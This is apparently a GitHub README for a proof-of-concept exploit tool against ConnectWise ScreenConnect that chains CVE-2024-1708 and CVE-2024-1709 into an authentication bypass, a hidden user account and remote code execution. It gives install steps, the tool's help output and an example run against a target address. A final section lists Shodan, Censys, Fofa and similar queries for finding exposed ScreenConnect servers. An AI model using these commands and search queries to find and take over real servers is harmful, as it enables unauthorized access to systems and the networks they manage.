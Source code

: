 # How to use

I'm using `Python3.9`.

```
pip install requests
# python check.py
python batchAdduser.py
```

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN] [--proxy PROXY]
                                                                                                             
CVE-2024-1708 && CVE-2024-1709 --> RCE!!!                                                                    
                                                                                                             
optional arguments:                                                                                          
  -h, --help            show this help message and exit                                                      
  -u USERNAME, --username USERNAME                                                                           
                        username you want to add                                                             
  -p PASSWORD, --password PASSWORD
                        password you want to add
  -t TARGET, --target TARGET
                        target url
  -d DOMAIN, --domain DOMAIN
                        Description of domain
  --proxy PROXY         eg: http://127.0.0.1:8080
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/c6d6a60e-433f-4f80-807d-dc7bc061cb96)

# Bug?NO!

If you encounter the following situation, it means that the goal cannot be achieved by RCE through this script.  

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-RCE/assets/101872898/422f1228-d913-4296-9eea-9e0685489ad9)

The specific reasons can be found at:  

> https://screenconnect.product.connectwise.com/communities/1/topics/1653-whitelist-custom-extensions-in-65
>
> https://bishopfox.com/blog/connectwise-control-advisory
>
> https://www.connectwise.com/globalassets/media/documents/connectwisecontrolsecurityevaluationmatrix.pdf

![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-RCE/assets/101872898/379191d2-862f-4a02-876f-850a771c1ddf)

If you can get a legal signature, please file issues, thank you very much.

# Cyberspace mapping statement

## Odin

```
services.modules.http.headers.server:"screenconnect"
```

## Zoomeye
```
app:"ScreenConnect Remote Management Software"
```

## Censys

```
services.http.response.headers:(key: `Server` and value.headers: `ScreenConnect`)
```

## Shodan

```
"Server: ScreenConnect"
```

## Hunter.how

```
product.name="ConnectWise ScreenConnect software"
```

## Fofa

```
app="ScreenConnect-Remote-Support-Software"
```

# Reference

https://www.connectwise.com/company/trust/security-bulletins/connectwise-screenconnect-23.9.8

https://github.com/watchtowrlabs/connectwise-screenconnect_auth-bypass-add-user-poc
